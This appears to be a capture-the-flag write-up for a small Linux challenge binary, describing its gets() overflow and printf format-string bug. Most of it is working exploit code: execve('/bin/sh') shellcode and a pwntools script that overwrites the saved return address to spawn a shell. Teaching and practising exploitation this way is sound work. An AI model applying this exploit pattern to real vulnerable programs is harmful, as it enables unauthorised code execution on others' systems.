 
# Challenge

Small x86_64 Linux binary: prints stack, calls `gets(buf)` (32 bytes), `printf(buf)`, prints stack again. Compiled with execstack, no canary, no PIE.

# Vulnerabilities

* **Buffer overflow** via `gets()` — unlimited input into 32‑byte buffer.
* **Format‑string risk** from `printf(buf)` if input contains `%`.

# Observed stack layout

`buf` at `0x7fffffffd810` → 32 bytes; saved RBP at `0x...d830`; saved RIP at `0x...d838` (contained `0x7fffffffd840`).

# Exploit strategy

Overwrite saved RIP with an address that points to attacker-controlled shellcode placed on the stack; return into that shellcode.

# Shellcode 

### one‑line

Classic `execve("/bin/sh", argv, NULL)` — builds `"/bin/sh"` on stack and issues syscall `59`.

### source

```bash
; gcc -nostdlib -o shellcode shellcode.s -masm=intel

.intel_syntax noprefix
.global _start
_start:
    xor rdx, rdx                # rdx = 0 (envp = NULL)

    mov rax, 0x68732f6e69622f2f # "/bin//sh" (temporary into rax)
    push rax                    # push "/bin//sh" on stack
    mov rdi, rsp                # rdi -> "/bin//sh"

    push rdx                    # push NULL terminator for argv
    push rdi                    # push pointer to "/bin//sh"
    mov rsi, rsp                # rsi -> argv (pointer to [rdi, NULL])

    xor rax, rax                # clear rax
    mov al, 59                  # syscall number 59 (execve)
    syscall
```

# Payload 


```python

from pwn import *

chal = ELF('./chal')

context.binary = chal

conn = process([chal.path])

def main():
    
    addr_shellcode = 0x7fffffffd840
    shellcode = asm('''
        .intel_syntax noprefix
        .global _start
    _start:
        xor rdx, rdx
        push rdx
        mov rax, 0x68732f6e69622f
        push rax 
        mov rdi, rsp
        push rdx
        push rdi 
        mov rsi, rsp 
        mov rax, 0x3b
        syscall
    ''', arch = 'amd64')

    payload = b'\0' * 0x20
    payload += p64(0)
    payload += p64(addr_shellcode)
    payload += shellcode
    
    conn.sendlineafter(b'Input: ', payload)
    conn.interactive()

if __name__ == '__main__':
    main()

```

> donot forget to disable aslr

![result](./img/result.png)